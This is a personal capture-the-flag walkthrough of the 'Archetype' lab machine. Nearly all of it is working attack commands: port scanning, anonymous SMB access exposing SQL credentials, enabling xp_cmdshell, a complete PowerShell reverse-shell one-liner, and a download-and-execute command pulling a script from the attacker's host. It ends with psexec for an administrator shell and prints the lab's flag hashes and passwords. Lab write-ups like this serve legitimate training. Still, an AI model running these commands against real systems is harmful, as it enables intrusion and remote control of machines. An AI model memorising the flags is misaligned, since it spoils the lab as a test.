 Starting Point Tutorial Name: ARCHETYPE
	Target IP: 10.10.10.27
	Attacker IP: 10.10.14.189
	Initial Nmap Scan of target 10.10.10.27, grep for ports, run service and script scan after that
	ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.27 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
	nmap -sC -sV -p$ports 10.10.10.27
	smbclient -N -L \\10.10.10.27\
	smbclient -N \\10.10.10.27\backup
		Found prod.dtsConfig file
			User ID=ARCHETYPE\sql_svc
			Password=M3g4c0rp123
	Downloaded Impacket Tools (sudo apt-get install python3-impacket)
	Connected to SQL Server on Target
		mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth
			Supplied Password=M3g4c0rp123
		Executed these commands on SQL server
			EXEC sp_configure 'Show Advanced Options', 1;
			reconfigure;
			sp_configure;
			EXEC sp_configure 'xp_cmdshell', 1
			reconfigure;
			xp_cmdshell "whoami"
	Created local Powershell Script
		$client = New-Object System.Net.Sockets.TCPClient("10.10.14.189",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
	Started mini web server to serve up script in directory of script
		sudo python3 -m http.server 80
	Started netcat listener on port 443
		nc -lvnp 443
	Opened ports in Firewall (I probably need to use UFW instead of Firewalld....)
		sudo firewall-cmd --add-rich-rule='rule family="ipv4" source address="10.10.10.27" port port="80" protocol="tcp" accept'
		sudo firewall-cmd --add-rich-rule='rule family="ipv4" source address="10.10.10.27" port port="443" protocol="tcp" accept'
	Issued command in SQL on target to have it download and run my script and reverse connect
		xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.189/shell.ps1\");"
	Browsed reverse connection in NetCat, checked sql_svc Desktop to find user.txt file
		type user.txt
			Value inside file:  3e7b102e78218e935bf3f4951fec21a3
	Examined Powershell console history
		type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt 
		Found admin password:
			user: administrator
			pass: MEGACORP_4dm1n!!
	Used Impacket's psexec.py to get a privileged shell
		psexec.py administrator@10.10.10.27
		pass: MEGACORP_4dm1n!!
	Examined c:\users\administrator\desktop\root.txt to find flag:
		b91ccec3305e98240082d4474b848528